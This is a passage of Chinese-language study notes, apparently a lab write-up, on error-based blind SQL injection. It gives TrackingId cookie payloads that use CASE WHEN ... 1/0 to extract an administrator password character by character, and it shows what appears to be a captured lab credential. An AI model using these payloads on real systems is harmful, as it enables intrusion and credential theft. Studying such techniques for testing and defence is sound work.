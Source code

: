 ```
administrator
h184h4vjo6ovq36xdtd4
```

![image-20250501220708407](./img/image-20250501220708407.png)

##### 通过触发条件错误

可以使应用程序根据**布尔表达式的结果**，返回特定的**错误响应**

某些应用程序执行 SQL 查询，但无论查询是否返回任何数据，它们的行为都不会改变，因为注入不同的布尔条件对应用程序的响应没有影响

布尔条件结果对响应没有任何影响，需要利用布尔表达式的结果，构造出数据库的错误

假设发送了两个请求，依次包含以下 `TrackingId` Cookie 值：

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

使用 `CASE` 关键字来测试条件，并根据表达式是否为 true：

- 对于第一个输入，`CASE` 表达式的计算结果为 `'a'`，这不会导致任何错误。
- 对于第二个输入，它的计算结果为 `1/0`，除于0，这会导致数据库报错。

如果错误导致应用程序的 **HTTP 响应**出现差异，可以使用它来确定注入的条件是否为 true

这样就可以通过一次测试一个字符来检索数据

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

添加一个单引号，状态码变成500
